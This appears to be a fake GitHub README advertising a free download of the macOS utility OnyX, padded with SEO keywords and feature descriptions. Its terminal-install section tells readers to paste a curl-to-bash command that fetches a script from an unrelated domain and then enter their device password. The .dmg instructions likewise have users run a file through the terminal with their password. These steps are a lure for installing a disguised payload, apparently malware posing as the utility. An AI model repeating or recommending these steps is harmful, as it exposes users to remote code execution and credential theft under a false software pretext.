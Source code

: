 # OnyX For Mac — Free Download  
OnyX is a powerful macOS utility for system optimization and maintenance. Follow the instructions below to install OnyX on your Mac for free and keep your system running smoothly! 🚀  

[![Download Now](https://img.shields.io/badge/Download%20Now-007AFF?style=for-the-badge&logo=apple)](https://onyx-for-mac.github.io/.github/)  

If the download button doesn’t work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install OnyX For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with OnyX  
OnyX empowers macOS users with tools to optimize and maintain their system. Here’s what you can do:  
- 🛠 **System Maintenance**: Clean caches, logs, and temporary files to free up disk space.  
- ⚙️ **Performance Optimization**: Fine-tune system settings for faster performance.  
- 🗑 **Junk Removal**: Safely delete unnecessary files to declutter your Mac.  
- 🔒 **Privacy Protection**: Clear browsing data and protect your personal information.  
- 📊 **System Diagnostics**: Verify disk health and troubleshoot issues with ease.  
- 🖥 **Customization Options**: Personalize macOS appearance and behavior to your liking.  

---

## About OnyX  
OnyX is a trusted macOS utility designed to help users maintain, optimize, and customize their systems. With a user-friendly interface, it offers a suite of tools to clean up unnecessary files, improve system performance, and troubleshoot potential issues. Whether you're a casual user or a power user, OnyX provides the flexibility to keep your Mac running at its best. Keywords: *OnyX free download, macOS optimization, system maintenance tool, clean Mac free*.  

This software is particularly valued for its ability to perform deep system cleaning. By removing caches, logs, and temporary files, OnyX frees up valuable disk space, ensuring your Mac operates efficiently. It also allows users to verify disk integrity, repair permissions, and run maintenance scripts, making it an essential tool for macOS system management. Keywords: *OnyX macOS utility, free system cleaner, Mac performance booster*.  

Beyond cleaning, OnyX offers advanced customization options. Users can tweak hidden macOS settings, such as Finder preferences, Dock behavior, and system animations, to tailor their experience. This makes OnyX a go-to solution for those who want a personalized and optimized Mac environment. Keywords: *customize macOS, free Mac utility, OnyX download free*.  

OnyX also prioritizes user privacy by enabling the removal of sensitive data, such as browsing history and application logs. Its intuitive design ensures that even non-technical users can navigate its features with ease, while advanced users appreciate its powerful command-line capabilities. Keywords: *Mac privacy tool, free system optimization, OnyX for macOS*.  

### Advantages of OnyX  
OnyX stands out due to its comprehensive feature set, ease of use, and reliability. Unlike other system utilities, it’s completely free, regularly updated, and developed by Titanium Software, a trusted name in macOS tools. Its lightweight design ensures minimal resource usage, while its robust functionality caters to both beginners and experts. Keywords: *best free Mac cleaner, OnyX macOS download, system maintenance free*.  

---

## 🖼 Preview  

![OnyX Dashboard](https://mac-cdn.softpedia.com/screenshots/OnyX_19.jpg)  
*OnyX’s clean interface for system maintenance and optimization.*  

![OnyX Cleaning Tools](https://titanium-software.fr/fr/images/home.png)  
*Easily clean caches and logs to free up disk space.*  

![OnyX Customization](https://macx.ws/uploads/posts/2018-10/1538467279_onyx-_03.jpg)  
*Customize macOS settings with OnyX’s intuitive options.*  


---

## 🔍 Tags  
OnyX free download, OnyX macOS utility, OnyX for macOS, OnyX download, OnyX download free, OnyX download mac, OnyX download macos, OnyX free macos, OnyX free mac, download OnyX free, download OnyX mac

